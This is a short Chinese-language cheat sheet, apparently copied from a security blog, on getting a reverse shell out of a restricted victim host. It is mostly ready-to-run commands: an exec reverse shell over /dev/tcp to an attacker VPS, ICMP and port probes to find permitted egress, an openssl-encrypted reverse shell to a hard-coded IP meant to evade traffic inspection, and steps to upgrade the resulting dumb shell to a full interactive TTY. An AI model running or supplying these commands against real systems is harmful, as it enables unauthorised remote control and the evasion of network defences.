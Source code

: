 1、无反弹命令的检查方法
```
受害机上执行：
whereis bash nc python php exec perl ruby telnet

用exec反弹shell：
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
2、禁止向外流量的检查方法
```
VPS上执行：
tcpdump -i eth0 -n -v icmp|grep -i "length 93"

受害机上执行：
ping -s 65 -c 1 xx.xx.xx.xx
```
3、限定向外端口的检查方法
```
VPS上执行：
nc -n -v -lp 3636

受害机上执行：
curl http://xx.xx.xx.xx:3636
```
4、流量审查的检查方法
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect 121.4.92.66 > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-Z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
```

https://www.freebuf.com/vuls/211847.html  
